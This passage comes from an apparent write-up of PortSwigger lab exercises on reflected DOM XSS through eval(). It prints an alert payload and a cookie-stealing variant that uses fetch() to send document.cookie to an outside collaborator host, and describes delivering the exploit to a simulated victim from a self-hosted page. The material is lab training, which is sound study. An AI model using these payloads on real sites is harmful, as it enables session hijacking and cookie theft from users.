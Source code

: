 >For example, if we search for `\"-alert(1)}//`, the response is the following

 ![Eval js](images/eval_js.png)

 >As noticed, JSON response (second field) is escaped. As the entire string is passed to the `eval()` function, the `alert(1)` is interpreted.

>This way, the payload `\"-alert(1)}//` is injected in the JavaScript code like this:

```JavaScript
var searchResultsObj = {"results":[],"searchTerm":"\\"-alert(1)}//"}
```
> Character `"` is escaped with backslash but we introduce another backslash character. This way, the resulting expression escapes the second backslash (not the `"`) and `eval()` function is able to interpret the Javascript code `alert(1)` (the `-` character makes the evaluation possible).

>Alternatively, more complex payloads can be used:

```JavaScript
\"-fetch('https://OASTIFY.COM?reflects='+document.cookie)}//
```  

>In the above payload every character is URL encoded and used as the search parameter value. This target do not have an exploit server, so I hosted my own `python3 -m http.server 80` web service and save the `index.html` file that contain the `location` target URL between `<script>` tags. 

![Reflected DOM-XSS JSON cookie stealer](images/reflected-dom-xss-json-cookie-stealer.png)  

>In the image above, I create insecure POC cookie value in my browser before simulating a victim user clicking on `http://localhost/index.html` link, same as Burp Exploit server, that is the same as the Deliver exploit to victim function.  

[PortSwigger Lab: Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)  

### DOM-XSS LastviewedProduct Cookie  

>Identify the cookie ```lastViewedProduct``` is set to the last URL visited under the product page. In the `source code` we identify the injection script tags where ```window.location``` is set.   

![DOM-XSS lastViewedProduct cookie code](images/dom-xss-lastViewedProduct-cookie.png)  
